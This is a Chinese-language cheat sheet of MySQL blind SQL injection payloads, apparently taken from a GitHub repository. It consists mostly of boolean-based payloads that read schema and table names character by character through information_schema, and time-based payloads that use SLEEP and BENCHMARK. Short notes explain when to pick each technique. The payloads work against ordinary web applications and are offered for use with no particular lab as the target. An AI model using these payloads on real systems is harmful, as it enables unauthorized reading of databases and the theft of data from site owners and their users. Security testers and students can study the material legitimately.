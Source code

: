 ### 有显示但是无回显位的：
```
(就是查询正确和查询错误页面返回结果不一致的)
此类一般用盲注：
payload:
and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))>50)-- 
```
### 无显示无回显的：
```
and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))>50,1,sleep(5))--+
```
### 盲注
#### 盲注场景：
```
1.通过前面的测试会发现页面没有回显提取的数据，但是根据语句是否执行成功与否会有一些相应的变化。
2.正确/错误的语句使得页面有适度的变化。可以尝试使用布尔注入
3.正确语句返回正常页面，错误的语句返回通用错误页面。可以尝试使用布尔注入。
4.提交错误语句，不影响页面的正常输出。建议尝试使用延时注入。

几种简单的判断语句，在真实利用中需要根据情况而变化:
CASE
IF()
IFNULL()
NULLIF()
```
#### 布尔盲注-基于响应
```
提交一个逻辑判断语句，来推断一个个的信息位。由于注入需要（一般）一个个字符的进行，所以需要利用脚本，或者工具（比如burp suite）。以下是：
payload:
// i 用于提取每一个位，j 用于判断其对应的ASCII码值的范围。
// k ，结合limit，选择偏移为k的行
// **中可以填上其他的select语句，比如查询表名，列名，数据。一次类推。
// SUBSTR() 也可以换成 SUBSTRING()
' OR (SELECT ASCII(SUBSTR(DATABASE(),i,1) ) < j) #
' OR (SELECT ASCII(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) ) < j) #  
' OR (SELECT SUBSTR(DATABASE(),i,1) < j) #
' OR (SELECT SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j) #  
' OR SUBSTR((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT k,1),i,1) < j #
```
#### 延时盲注-基于时间
```
一般会用到几个函数。使用这些的效果，是为了延缓mysql的操作，从而检测到与平时有异的情况：
SLEEP(n) 让mysql停n秒钟
BENCHMARK(count,expr) 重复countTimes次执行表达式expr

一些注意事项：
使用基于时间的盲注比较不准确，因为这还取决于当前的网络环境。
时间延缓最好不要超过30秒，否则容易导致mysql的API连接超时。
当在页面上看不到任何明显变化时，再考虑选择使用延时注入。

检测方法:
1 and sleep(5)=0 limit 1 #
1) OR SLEEP(25)=0 LIMIT 1 #
1' OR SLEEP(25)=0 LIMIT 1 #
') OR SLEEP(25)=0 LIMIT 1 #
1)) OR SLEEP(25)=0 LIMIT 1 #
SELECT SLEEP(25) #

```